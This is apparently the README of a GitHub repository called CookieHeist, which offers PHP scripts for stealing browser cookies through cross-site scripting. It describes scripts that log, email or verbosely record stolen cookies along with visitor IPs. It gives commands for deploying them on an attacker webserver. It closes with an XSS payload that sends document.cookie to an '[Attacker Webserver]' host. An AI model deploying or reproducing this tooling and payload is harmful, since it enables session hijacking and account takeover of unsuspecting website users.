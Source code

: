 # CookieHeist
PHP Cookie Stealing Scripts for use in XSS

1. Cookiesteal-simple.php - Records whatever "c" parameter holds, in example case the document.cookie string, writes value to cookielog.txt. 

2. Cookiesteal-simple-v2.php - Records whatever "c" parameter holds, writes value to cookielog.txt and redirects to Google.com.

3. Cookiemail.php - This version code will mail the cookies to hacker mail using the PHP() mail function with subject “Stolen cookies”.

4. Cookiesteal-v.php (verbose) - Collects the IP address, port number, host(usually computer-name), user agent and cookie.

## Usage
1. On the remote attacker machine, start the webserver (Apache2 in example):
sudo service apache2 start

2. Git clone the repo locally and then push the chosen "Cookie stealer" PHP script from local host to the attacking machine.
git clone https://github.com/RxSec/CookieHeist
cd CookieHeist
sudo scp cookiestealer-simple.php username@AttackMachine:/var/www/html/
sudo scp cookielog.txt username@AttackMachine:/var/www/html/

Example: http://[Attacker Webserver]/cookiesteal-simple.php?c=document.cookie

XSS Payload Example: <script javascript:text>document.location="http://[Attacker Webserver]?c=" + document.cookie + "&t=Alert"; </script>
